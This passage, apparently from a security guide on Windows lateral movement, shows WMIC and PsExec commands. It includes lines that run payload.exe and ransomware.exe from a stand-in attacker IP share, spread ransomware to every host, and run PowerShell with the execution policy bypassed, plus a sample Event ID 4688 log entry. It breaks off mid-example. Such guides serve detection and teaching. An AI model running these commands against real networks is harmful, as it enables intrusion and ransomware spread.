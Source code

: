 3. **System Reconnaissance:**

- Collecting information like installed software:

```shell
wmic product get name,version
```

#### **2.2 PsExec**

1. **Executing Malicious Commands:**

- Example of PsExec running a malicious executable on a target system:

```shell
psexec \\<target_ip> -u <username> -p <password> cmd.exe /c \\<attacker_ip>\payload.exe
```

2. **Fileless Malware Execution:**

- Using PsExec to execute PowerShell directly:

```shell
psexec \\<target_ip> -u <username> powershell.exe -ExecutionPolicy Bypass -Command "<malicious_command>"
```

3. **Ransomware Deployment:**

- Spreading ransomware across multiple systems:

```shell
psexec \\* -u <username> -p <password> cmd.exe /c \\<attacker_ip>\ransomware.exe
```

---

### **3. Real-World Attack Scenarios**

#### **3.1 Example 1: Remote Command Execution via WMIC**

1. **Objective**: Execute `calc.exe` on a remote host.
2. **Command**:

```shell
wmic /node:"192.168.1.10" /user:"Administrator" process call create "calc.exe"
```

3. **Log Entry (Event ID 4688 - Process Creation)**:

```
New Process Name: calc.exe
Account Name: Administrator
Workstation Name: 192.168.1.10
```

#### **3.2 Example 2: Lateral Movement with PsExec**

1. **Objective**: Spread ransomware across multiple hosts.
2. **Command**:
